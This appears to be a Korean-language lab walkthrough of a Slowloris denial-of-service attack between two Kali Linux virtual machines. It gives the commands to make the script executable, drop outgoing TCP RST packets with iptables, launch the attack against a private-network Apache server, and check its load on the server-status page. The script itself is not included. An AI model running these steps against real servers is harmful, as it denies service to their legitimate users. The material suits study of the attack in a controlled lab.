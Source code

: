 Kali#2에서 해당 파일에 실행 속성을 부여

**\# chmod 755 slowloris.py**

Kali#1에서 아파치 서버 실행하고 IP를 확인

**\# service apache2 restart**

**\# ifconfig**

Kali#2에서 외부로 RST 패킷이 나가지 않도록 방화벽에 룰을 등록

**\# iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP**

```bash
root@kali:~# iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
DROP       tcp  --  anywhere             anywhere             tcp flags:RST/RST
```

Kali#2에서 공격 명령 실행

**\# ./slowloris.py 192.168.111.130 50**

Kali#1에서 아파치 서버의 상태 확인

웹 브라우져에서 **localhost/server-status** 로 접속
